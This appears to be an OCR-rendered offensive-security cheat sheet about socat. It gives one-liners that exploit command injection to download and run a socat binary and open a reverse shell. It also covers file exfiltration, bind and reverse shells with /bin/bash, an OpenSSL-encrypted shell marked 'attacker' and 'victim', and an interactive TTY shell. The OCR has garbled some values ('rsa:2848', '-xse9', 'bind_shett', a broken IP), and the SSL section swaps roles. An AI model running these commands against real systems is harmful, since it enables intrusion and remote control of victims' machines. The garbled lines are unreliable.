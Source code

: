# socat

## <mark style="color:red;">Deployment</mark>

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:\
\
[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)\
\
With a command injection vuln, it’s possible to download the correct architecture socat binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## <mark style="color:red;">connect</mark>

```
socat - TCP4:[ip]:[port] 
socat TCP4-LISTEN:[port] STDOUT
```

## <mark style="color:red;">file transfer</mark>

```
sudo socat TCP4-LISTEN:443,fork file:file.txt
socat TCP4:18.11.8.4:443 file:file.txt,create
```

## <mark style="color:red;">shell</mark>

```
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:18.11.8.22:443 EXEC:/bin/bash
```

### <mark style="color:orange;">ssh shell</mark>

create a cert with openssl:

```
openssl req -newkey rsa:2848 -nodes -keyout shell.key -x509 -days 365 -out shell.crt

req: initiate a new certificate signing request
-newkey: generate a new private key
rsa:2848: use RSA encryption with a 2,048-bit key length.
-nodes: store the private key without passphrase protection
-keyout: save the key to a file
-xse9: output a self-signed certificate instead of a certificate request
-days: set validity period in days
-out: save the certificate to a file
```

merge two files to create a usable pem file for socat:

```
cat bind_shett.key bind_shett.crt > bind_shett.pem
```

attacker:

```
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=e,fork EXEC:/bin/bash
```

victim:

```
socat - OPENSSL:1e.11. e .4:443,verify=8
```

### <mark style="color:orange;">intractive shell</mark>

```
socat file:`tty`,raw,echo=0 tcp-listen:4444 → attacker
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  → host
```
